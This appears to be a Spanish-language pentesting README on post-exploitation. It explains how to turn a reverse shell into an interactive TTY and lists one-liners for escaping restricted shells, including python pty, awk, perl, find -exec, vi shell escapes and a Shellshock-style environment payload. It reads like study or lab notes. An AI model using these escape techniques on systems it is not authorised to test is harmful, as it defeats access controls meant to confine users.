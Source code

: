 # 🖥️ Tratamiento de la TTY + Restricted Shell

---

## 📋 Índice

1. [❓ ¿Qué es la TTY?](#tty)
2. [🤔 ¿Por qué se hace el tratamiento de la TTY?](#porque)
3. [🔧 Formas de tratar la TTY](#formas)
    - [⚙️ Método 1️⃣: `script /dev/null -c bash`](#metodo)
    - [🛠️ Método 2️⃣: Python, Perl, Ruby, Lua, Vi, Nmap, etc.](#python)
4. [🔒 ¿Qué es una Restricted Shell?](#restricted)
5. [🚪 Cómo escapar de una Restricted Shell](#escapar)
6. [✅ Resumen](#resumen)

---
<a name="tty"></a>
## ❓ ¿Qué es la TTY?

Cuando logramos obtener una **reverse shell**, recibimos una **terminal mínima o limitada**.  
Esta terminal básica no tiene todas las capacidades de una terminal interactiva real (**TTY**).

👉 La **TTY (Teletype Terminal)** es la interfaz de entrada/salida entre el sistema y el usuario.

Al recibir una reverse shell, normalmente obtenemos una **pseudo-terminal** sin TTY completa.  
Por eso es necesario "tratarla" para convertirla en una shell más funcional.

---
<a name="porque"></a>
## 🤔 ¿Por qué se hace el tratamiento de la TTY?

El objetivo es lograr una **TTY interactiva**, es decir, convertir una shell limitada en una shell completa que nos permita:

- ✅ Usar comandos avanzados (`su`, `nano`, `top`, etc.)
- ✅ Manejar atajos de teclado (`Ctrl+C`, `Ctrl+Z`, `Ctrl+D`)
- ✅ Mejorar la estabilidad y experiencia de la shell
- ✅ Tener autocompletado, edición de línea, historial de comandos, etc.

---
<a name="formas"></a>
## 🔧 Formas de tratar la TTY

---
<a name="metodo"></a>
### ⚙️ Método 1️⃣: `script /dev/null -c bash`

Este método funciona en sistemas donde está disponible el comando `script`:

```bash
script /dev/null -c bash
```

Luego:

```bash
# Suspender la shell temporalmente
Ctrl + Z

# Ajustar la terminal actual
stty raw -echo; fg

# Resetear la terminal
reset xterm

# Exportar variables para mejorar compatibilidad
export SHELL=bash
export TERM=xterm
```
Adicionalmente habrá que ajustar las filas y columnas, abrimos una terminal aparte y hacemos:
```bash
stty -a
```
eso nos dará una salida dónde buscaremos:
```
 rows 54; columns 120;
```
esas son las dimensiones de nuestra terminal y las exportaremos a la nueva tty que hemos creado así:
```
stty rows 54 columns 129
```

---
<a name="python"></a>
### 🛠️ Método 2️⃣: Python, Perl, Ruby, Lua, Vi, Nmap, etc.

Si `script` no funciona, puedes intentar cualquiera de estos métodos alternativos:

```bash
# Python (muy común)
python -c 'import pty; pty.spawn("/bin/bash")'

# Python 3
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Bash interactivo
echo os.system('/bin/bash')
/bin/sh -i

# Otro uso de script
script -qc /bin/bash /dev/null

# Perl
perl -e 'exec "/bin/sh";'

# Ruby
ruby -e 'exec "/bin/sh"'

# Lua
lua -e 'os.execute("/bin/sh")'

# IRB (Ruby shell)
irb
exec "/bin/sh"

# Vi (si puedes abrirlo)
vi
# Dentro de vi:
:!bash
# o
:set shell=/bin/bash | :shell

# Nmap (si tienes --interactive)
nmap --interactive
nmap> !sh
```

---
<a name="restricted"></a>
# 🔒 Restricted Shell y cómo escapar de ella (con ejemplos)

Una **restricted shell** (shell restringida) es un entorno limitado de línea de comandos que restringe funciones básicas para evitar que el usuario pueda salir del entorno controlado o ejecutar comandos peligrosos.

Por ejemplo, en una restricted shell comúnmente:

- 🚫 No puedes usar `cd` para cambiar de directorio.  
- 🚫 No puedes usar barras `/` en comandos para evitar ejecutar shells externas.  
- 🚫 No puedes redirigir la salida con `>`, `>>` o la entrada con `<`.  
- 🚫 No puedes modificar variables de entorno.  
- 🚫 Estás limitado a ciertos comandos permitidos.  

Estas restricciones buscan limitar el control del usuario para proteger el sistema.

---
<a name="escapar"></a>
## 🚪 Cómo escapar de una restricted shell

### 1️⃣ Invocar otra shell directamente

Si tienes acceso a shells comunes, intenta ejecutar alguna de estas:

```bash
/bin/bash
/bin/sh
/bin/zsh
/bin/ksh
```

---

### 2️⃣ Usar comandos que ejecutan shell internamente

Ejemplos de comandos que pueden invocar una shell dentro de ellos:

```bash
awk 'BEGIN {system("/bin/sh")}'
perl -e 'exec "/bin/sh";'
python -c 'import os; os.system("/bin/sh")'
```

---

### 3️⃣ Crear y ejecutar scripts temporales

Si tienes permisos para crear archivos, puedes hacer:

```bash
echo 'bash' > /tmp/shell.sh
chmod +x /tmp/shell.sh
/tmp/shell.sh
```

---

### 4️⃣ Explorar variables de entorno y funciones shell

En algunas configuraciones vulnerables:

```bash
env x='() { :;}; /bin/bash' bash -c "echo escaped"
```

---

### 5️⃣ Usar editores para ejecutar comandos

En `vim` o `vi`, escribe:

```bash
:! /bin/sh
```

En `nano`, presiona:

```text
Ctrl + R
Ctrl + X
```

---

### 6️⃣ Usar otros comandos con capacidad para ejecutar comandos arbitrarios

Por ejemplo:

```bash
find . -exec /bin/sh \;
ruby -e 'exec "/bin/sh"'
```

---
<a name="resumen"></a>
## ✅ Resumen

- Las **restricted shells** bloquean comandos comunes como `cd`, redirecciones (`>`, `<`), ejecución de comandos externos con `/`, etc.  
- Para escapar:
  - Invoca shells comunes o usa comandos que ejecutan shells internamente.
  - Usa editores o comandos que permiten ejecutar shells.
  - Explora vulnerabilidades en variables de entorno.

---





